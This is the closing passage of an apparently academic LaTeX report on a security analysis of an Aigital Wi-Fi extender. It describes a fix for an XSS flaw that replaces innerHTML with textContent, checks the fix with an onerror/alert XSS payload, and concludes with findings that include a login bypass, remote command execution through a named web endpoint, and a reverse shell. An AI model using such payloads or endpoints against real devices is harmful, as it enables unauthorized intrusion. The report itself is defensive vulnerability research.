function init() {
    var target = document.getElementById("ssidValue");
    if (target) {
        target.textContent = ssid;
    }
}
\end{lstlisting}

          The difference is security-relevant. \emph{textContent} does not invoke the HTML parser. It replaces the textual content of the target node with the exact string provided by the application. Therefore, characters such as \emph{$<$}, \emph{$>$}, quotes and equal signs keep their literal meaning and are not interpreted as markup.
\\
          To verify the patch, we used the same payload employed during exploitation:

\begin{lstlisting}[language=HTML]
<h1 style=color:red>XSS_OK</h1><img src=x onerror=alert(1)>
\end{lstlisting}

        The patched page was reached at:

\begin{lstlisting}[language=bash]
http://192.168.10.253/status.htm
\end{lstlisting}

          In the patched page, the payload is displayed literally and no alert popup is triggered. This proves that the browser no longer treats the SSID as executable HTML.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\textwidth]{../imgs/4.19-xss_status_patched.png}
    \caption{Same XSS payload displayed as text in the patched page}
    \label{fig:xsspatched}
\end{figure}

          This patch preserves the intended functionality of the page: the administrator can still see the SSID value. However, the value is no longer allowed to modify the structure of the document or execute JavaScript.
          \\
          More generally, the safe rendering rule is:

          \begin{itemize}
              \item use \emph{textContent} when displaying untrusted text;
              \item avoid \emph{innerHTML} for values controlled by users or by device configuration;
              \item if HTML rendering is strictly required, sanitize the input with a whitelist-based sanitizer before inserting it into the DOM.
          \end{itemize}

          In our case, HTML rendering was not required because the SSID is a textual configuration value. Therefore, replacing \emph{innerHTML} with \emph{textContent} is the simplest and safest mitigation.

          From an implementation point of view, the patch changes only the sink, not the source of the value. The SSID can still contain arbitrary characters, but the browser receives them through a text-only DOM API.
          \\
          This is preferable to filtering specific substrings such as \emph{script}, \emph{onerror}, or angle brackets, because blacklist-based filtering is incomplete and can usually be bypassed with alternative tags, encodings, or event handlers.
\chapter{Conclusion}
\label{chap:conclusion}

In this project, we performed a security analysis of an Aigital Wi-Fi extender, starting from the physical device and reaching a patched firmware tested in an emulated environment. The work combined hardware inspection, EEPROM dumping, firmware extraction, reverse engineering, exploitation, Firmadyne emulation, and binary patching.
\\
The analysis confirmed that the device exposes serious weaknesses in its web management interface. We reproduced the documented login by-pass, the remote command execution through \emph{/boafrm/formSysCmd}, and the XSS caused by unsafe rendering of user-controlled configuration values. The most critical issue was the RCE, since it allowed us to move from authenticated web access to command execution and then to an interactive reverse shell.
\\
After the physical device became unreliable because of EEPROM and PCB damage, Firmadyne allowed us to continue the work in a controlled environment. The emulation was not a perfect reproduction of the proprietary  Realtek platform, especially because of incomplete MIB/NVRAM behavior. However, after stabilizing the Boa/web-interface paths required for testing, it was sufficient to reproduce the relevant attack surfaces and compare vulnerable and patched firmware variants.
\\
The fixing phase showed that targeted mitigations can significantly reduce the impact of the vulnerabilities. The RCE handler was neutralized by forcing the vulnerable Boa function to return immediately. The login by-pass was mitigated by reducing the reusable global authentication window, although a complete production-quality fix would require proper server-side session tokens. The XSS was fixed by replacing the unsafe \emph{innerHTML} sink with \emph{textContent}, so that the SSID is treated as text rather than executable markup.
\\
Finally, the project achieved its goals: we extracted and analyzed the firmware, reproduced the relevant vulnerabilities, obtained command execution and a reverse shell, and produced patched firmware variants that mitigate the observed issues.


\printbibliography
\end{document}